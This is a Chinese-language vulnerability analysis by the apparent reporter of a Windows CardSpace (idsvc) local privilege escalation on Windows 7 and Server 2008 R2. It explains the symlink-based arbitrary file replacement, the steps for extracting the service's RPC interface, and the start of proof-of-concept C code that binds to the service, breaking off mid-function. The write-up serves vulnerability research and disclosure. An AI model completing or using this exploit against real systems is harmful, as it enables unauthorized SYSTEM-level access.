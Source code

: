 #### 引用 ####

>这个漏洞属于Windows CardSpace服务未正确处理符号链接对象导致的任意文件替换的本地权限提升漏洞 

#### 申明 ####

作者poc仅供研究目的,如果读者利用本poc从事其他行为,与本人无关

#### 目录 ####

[toc]

#### 分析 ####

##### 漏洞影响范围 #####

适用于Windows7和Windows Server 2008 R2的普通用户和开启特殊配置的IIS用户

##### 漏洞原理分析 #####

笔者是漏洞的提交者,漏洞更新于2020年5月.漏洞来自于Windows7和Windows Server 2008 R2的Windows CardSpace服务(简称idsvc),该服务可由任意用户启动,本身以System权限运行,并提供公开的RPC调用,服务在由用户触发移动位于当前用户环境变量%APPDATA%目录下指定配置文件时未正确处理符号链接对象,导致任意文件替换的本地权限提升,这是漏洞的成因.
由于是利用基于RPC调用就需要先获取服务的接口[MIDL](https://docs.microsoft.com/en-us/windows/win32/midl/midl-start-page),这样才能编写本地代码与之交互.笔者推荐使用[RpcView工具](https://github.com/silverf0x/RpcView),具体方法可以参考[RPC漏洞挖掘系列文章](https://www.anquanke.com/post/id/167427).
先使用如下方法获取符号文件,并在工具中进行符号配置,之后就可以反编译出RPC接口IDL文件,具体方法如下
```
//先配置环境变量[_NT_SYMBOL_PATH]值如下
SRV*C:\symbols*http://msdl.microsoft.com/download/symbols/
//手动下载符号,symchk.exe在windbg目录下
symchk.exe "C:\Windows\Microsoft.NET\Framework64\v3.0\Windows Communication Foundation\infocard.exe" /v 
//在RpcView工具点击Options->Configure Symbols,输入如下内容,注意大小写
srv*C:\symbols
```
![点击看大图](https://ftp.bmp.ovh/imgs/2020/05/094f6ab7bb556200.png)
通过工具获取其中由3个重要的数据,Rpc协议的类型,协议名称和协议接口的客户端定义文件(编译IDL文件文件生成的.c文件,见左侧Decompilation文本框),这样就可以用如下方法绑定Rpc服务了
```
BOOL StartRpcService()
{
	RPC_STATUS status;
	unsigned int  cMinCalls = 1;
	RPC_BINDING_HANDLE v5;
	RPC_SECURITY_QOS SecurityQOS = {};
	RPC_WSTR StringBinding = nullptr;
	if (StartConnectingService())
	{
       //Rpc协议的类型,协议名称
		status = RpcStringBindingComposeW(nullptr, L"ncalrpc", 0, L"31336F38236F3E2C6F3F2E6F20336F20236F21326F", nullptr, &StringBinding);
		if (status){
			printf("RpcStringBindingComposeW Failed:%d\n", status);
			return(status);
		}
		status = RpcBindingFromStringBindingW(StringBinding, &hBinding);
		RpcStringFreeW(&StringBinding);
		if (status){
			printf("RpcBindingFromStringBindingW Failed:%d\n", status);
			return(status);
		}
		SecurityQOS.Version = 1;
		SecurityQOS.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
		SecurityQOS.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
		SecurityQOS.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
```